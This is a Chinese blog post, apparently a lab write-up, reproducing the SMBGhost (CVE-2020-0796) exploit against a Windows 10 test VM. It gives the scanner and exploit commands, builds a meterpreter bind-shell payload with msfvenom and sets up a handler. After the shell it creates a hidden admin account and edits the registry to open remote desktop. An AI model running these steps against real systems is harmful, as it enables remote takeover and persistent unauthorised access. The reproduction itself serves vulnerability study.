





# CVE-2020-0796 复现 - anweilx - 博客园

> 原文：[`www.cnblogs.com/anweilx/p/13056586.html`](https://www.cnblogs.com/anweilx/p/13056586.html)

今天整理资料时发现了之前存的一个 cve 漏洞复现过程，当时打算跟着复现来着，后来也没去复现，今天刚好有时间，所以来复现一下这个漏洞

# 漏洞讲解

```
https://www.freebuf.com/vuls/233263.html
https://blog.csdn.net/RatOnSea/article/details/106399450
https://www.cnblogs.com/A66666/p/29635a243378b49ccb485c7a280df989.html 
```

# 漏洞复现

## 下文中所使用的文件

```
镜像：ed2k://|file|cn_windows_10_business_editions_version_1903_x64_dvd_e001dd2c.iso|4815527936|47D4C57E638DF8BF74C59261E2CE702D|
Scanner：
1.https://github.com/ollypwn/SMBGhost
2.http://dl.qianxin.com/skylar6/CVE-2020-0796-Scanner.zip
POC：https://github.com/chompie1337/SMBGhost_RCE_PoC.git 
```

## 靶机信息

Windows10:192.168.0.129
kali:192.168.0.130

## 漏洞扫描

### 

```
python3 scanner.py 192.168.0.129 
```


### 


## 使用 metasploit 生成脚本

```
msfvenom -p windows/x64/meterpreter/bind_tcp lport=6666 -f py -o tool.py 
```


## 将 poc 中的 exploit.py 中的 USER_PAYLOAD 替换为 metasploit 生成的 buf




## 使用 metasploit 对 6666 端口进行监听

```
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/bind_tcp
show options
set LPORT 6666
set RHOST 192.168.0.129
exploit 
```


## 运行之前修改的 exploit.py

```
python3 exploit1.py -ip 192.168.0.129 
```




## 成功拿到 shell，完成复现

# 提权

## 创建新用户

```
net user hack hack /add 
```

## 加入管理员组中

```
net localgroup Administrators hack /add
net localgroup Users hack /del 
```

## 查看当前用户的信息

```
net user hack 
```



## 获得一个管理员权限的账号,尝试使用远程连接工具进行连接


## 开启远程连接功能

发现无法连接，使用如下命令开启远程连接功能

```
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f 
```




## 连接成功，获得权限

等待 30 秒后即可成功连接
